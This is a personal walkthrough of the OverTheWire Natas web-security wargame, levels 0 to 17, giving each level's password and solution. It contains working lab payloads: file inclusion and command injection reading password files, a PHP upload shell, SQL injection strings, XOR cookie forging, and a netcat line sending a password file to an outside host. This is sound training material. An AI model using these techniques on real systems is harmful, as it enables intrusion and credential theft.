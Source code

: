 
Natas
=====

http://overthewire.org/wargames/natas/

Major takeaways:
- 

### natas0: natas0
View source.

### natas1: gtVrDuiDfck831PqWsLEZy5gyDz1clto
view-source:http://natas1.natas.labs.overthewire.org/

Right clicking disabled, download the source and have a look.

### natas2: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi
http://natas2.natas.labs.overthewire.org/files/users.txt

Directory index on /files/

### natas3: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

"Not even Google will find it this time."

http://natas3.natas.labs.overthewire.org/robots.txt

### natas4: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

Setting the referer header.

```
$ curl --basic -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ http://natas4.natas.labs.overthewire.org/ --referer http://natas5.natas.labs.overthewire.org/
```

### natas5: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

Using -v means you can see the Set-Cookie header and see the loggedin=0 it's trying to send.

```
$ curl --basic -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org/ --cookie loggedin=1 -v
```

### natas6: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

The php source references a secret in /includes/secret.inc. 
When you run it through the form it tells you the password.

### natas7: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

PHP file inclusion bug.

```
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

### natas8: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

Reverse the secret encoding function.

```
function decodeSecret($s) {
    return base64_decode(strrev(hex2bin($s)));
}
```

### natas9: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

You can do pretty much whatever you want with that grep command to capture output.

```
http://natas9.natas.labs.overthewire.org/?needle=.+%2Fetc%2Fnatas_webpass%2F*&submit=Search
```

### natas10: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

Same thing.  The filtering didn't affect the command I used.  Backticks would be fine too.

```
http://natas10.natas.labs.overthewire.org/?needle=.+%2Fetc%2Fnatas_webpass%2F*&submit=Search
```

### natas11: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

```
$m = "ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw\x3D";
echo "OriginalCookie: " . $m . "\n";
$match = base64_decode($m);

$encoded_struct = json_encode(array( "showpassword"=>"no", "bgcolor"=>"#ffffff" ));
echo "ENCODED " . $encoded_struct . "\n";
echo "MATCH " . $match . "\n";

$key = xor_encrypt($encoded_struct, $match);
$key = 'qw8J';
echo "@KEY@: " . $key . "\n";

$reencoded = xor_encrypt($match, $key);
echo "FOUND IN OLD: " . $reencoded . "\n";


// Let's encrypt again

$new_struct = json_encode(array( "showpassword"=>"yes", "bgcolor"=>"#ffffff" ));

$newtoken = xor_encrypt2($new_struct);
echo "@NEW@: " . base64_encode($newtoken) . "\n";
echo "what is here? " . xor_encrypt2($newtoken) . "\n";

$struct = json_decode(xor_encrypt2($newtoken), true);
var_dump($struct);
```

- Should have started by understanding the XOR plaintext attack.
- Trying to reverse characters here was probably not a good idea.
- Moving this to Python was probably a bad idea. Something with base64 being different.
- PHP is wet garbage. Need to find a function to display binary data better.
- Remember to re-state your assumptions.  The key repeated every 4 characters, but ended before
  a complete revolution.  I should have looked at the key, copied out the 4 repeating characters
  and used that, rather than doubling up the key and having the last chunk be incorrect.  Tough
  to track down.

### natas12: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

- In developer tools, change the filename to hello.php.
- That pathinfo() function uses the same file extension and doesn't filter for jpg/jpeg.
- Then it runs whatever .php files are sitting there.
```
<?php

echo "hello from me\n";

system("cat /etc/natas_webpass/*");

?>
```

### natas13: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

- Same idea as the last one.  But it'll run exif\_imagetype() on it, so you need to have 
  enough of a JPEG file at the top to trick php, but if you add that .php file extension
  in the form, it'll run it as php again anyway.

### natas14: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

```
$ curl --basic -u natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 http://natas14.natas.labs.overthewire.org?debug=yes -F username='" or 1#' -F password=abc123
```

### natas15: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

I made an educated guess that the user is natas16 and verified it exists.
We can inject some SQL, but we can't get output - we only know if a row was returned or not.
I wrote a script to start trying strings and see if there exists a password that starts with 
that string. If there is, start trying more characters on the end of that string. 

Didn't realize LIKE was case-insensitive. Great. :tada:

### natas16: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh 

``` 
passthru("grep -i \"$key\" dictionary.txt"); 
```

Okay, so it's filtering things out when we run the grep command. So how do we get some output
out of this thing?  It's tough to break out of the quotes.  But we can run a subcommand, so 
there's a lot we can do.
 - Tried using `nc -l 0.0.0.0 12345` but the host doesn't accept connections.  It does hang, so netcat exists.
 - Tried using `nc server.com 12345 < /etc/natas_webpass/natas17` but it doesn't make outgoing connections.
 - Tried using `.$(echo -e \\042) /etc/natas*/* $(echo -e \\042)` to emit quotes, but it fails for some reason.

Okay, if I pull the first char of the file in the subcommand, whatever it greps out will tell me the character
it starts with at any rate.  I wonder if there are dictionary entries with numbers.  I think I can write 
something to work with isupper as well.  It seemed like a reasonable solution, and these gaps heavily reduce
the brute force space, but I'd really like to get the exact data pulled out.

Usually I'd do something like `grep ^something file && echo found` or something, but pipe is filtered out,
so I had to look at other ways.  Whatever subcommand you run still needs to be incorporated into a valid 
grep command that'll go through the dictionary file.  What I settled on was `hello$(grep -l ^%s /etc/natas_webpass/natas17)`
So if the string is in the file, it'll try to grep for hello/etc/nataswebpass/natas17 and won't find anything.
If the string isn't in the file, it'll grep for hello in the dictionary.  Using that I could basically
reuse the script from the last exercise to brute force the contents of the password file out.

### natas17: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

And that'll be a totally blind SQL injection.  Well I think I can reuse 15 pretty much completely.



